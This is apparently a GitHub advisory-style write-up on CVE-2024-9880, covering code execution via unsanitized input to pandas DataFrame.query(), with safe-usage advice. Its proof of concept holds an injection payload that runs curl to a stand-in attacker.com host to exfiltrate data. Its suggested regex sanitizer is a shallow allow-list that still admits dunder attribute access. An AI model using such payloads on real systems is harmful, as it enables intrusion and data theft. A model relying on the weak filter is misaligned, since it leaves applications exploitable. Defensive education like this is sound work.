 # CVE-2024-9880 - Arbitrary Command Execution in Pandas Library due to `pandas.DataFrame.query()`

## Overview

**CVE-2024-9880** refers to an **arbitrary command execution vulnerability** when the `pandas.DataFrame.query()` method is used with **unsanitized user input**. The issue arises because `query()` internally uses Python’s `eval()` to interpret expressions passed to it, which can lead to **remote code execution (RCE)** in affected applications.

![alt text](image.png)

Reference: https://pandas.pydata.org/docs/reference/api/pandas.DataFrame.query.html


---

## Root Cause Analysis

* `DataFrame.query()` was designed to take string expressions and evaluate them using the local Python environment.
* When developers pass **user-controlled input** directly to this method, arbitrary Python expressions can be evaluated.
* This can allow attackers to execute shell commands, import modules, or manipulate runtime behavior.

```python
df.query('__import__("os").system("ping google.com")')
```

* This behavior is **documented**, expected, and intended by design — but it becomes dangerous when misused in exposed APIs.

---

## Exploitation Example (PoC)

```python
import pandas as pd

df = pd.DataFrame({'name': ['shlok', 'bob'], 'score': [100, 50]})

payload = '__import__("os").system("curl http://attacker.com/exfil")'

df.query(payload)
```

If an application accepts this input through a web form, CLI input, or API endpoint and passes it unfiltered into `query()`, an attacker can run **arbitrary system commands**.

---

## Affected Versions

* All versions of `pandas` that implement `DataFrame.query()` are affected **when used improperly**.
* No patches have been released because this is **expected behavior**.
* The pandas team has updated documentation to include clear **security warnings**.

[Official documentation](https://pandas.pydata.org/docs/reference/api/pandas.DataFrame.query.html)

>  “This method uses the `numexpr` expression evaluator by default. This can be changed by setting the `engine` parameter. **Do not use this function with untrusted input.**”

---

## CVE and Advisory Status

| Field       | Value                                                   |
| ----------- | ------------------------------------------------------- |
| CVE ID      | CVE-2024-9880                                           |
| CWE         | CWE-77: Improper Neutralization of OS Command Injection |
| Snyk ID     | SNYK-PYTHON-PANDAS-8549481                              |
| Reported by | Aftersnows\@360                                         |
| Published   | 25 Dec 2024                                             |
| Status      | Advisory Revoked / CVE Expected to Be Rejected          |

---

## Recommendations

### Safe Usage Practices

* **NEVER** pass untrusted input to `.query()` or any API that evaluates strings (e.g., `eval()`, `exec()`, `eval(expr, globals)`).
* Use **parameterized filters** or **boolean indexing** instead:

```python
df[df['score'] > 50]  # Safe alternative to query("score > 50")
```

* If dynamic expressions must be supported, restrict allowed inputs via regex or expression parsers.

### Sanitize Input (if necessary)

If user input is absolutely necessary:

```python
import re

def safe_query(expression):
    # Allow only alphanumeric, operators, and space
    if re.match(r'^[\w\s><=.!&|()]+$', expression):
        return df.query(expression)
    else:
        raise ValueError("Unsafe expression")

safe_query("score > 50")  # OK
safe_query("__import__('os').system('ls')")  # Blocked
```

---

## Developer Awareness

This CVE is a **developer education** issue more than a code defect. It serves as a reminder that **convenient features can become vulnerabilities** when used without validation.

**Key takeaway:** Treat any string-evaluating function as inherently dangerous in a security context.

---

## Conclusion

While **CVE-2024-9880** highlights a critical **RCE vector**, it is not a flaw in `pandas` — rather, it's a dangerous misuse of a documented feature. No patch is required, but developers must ensure they do not expose `query()` to user input.
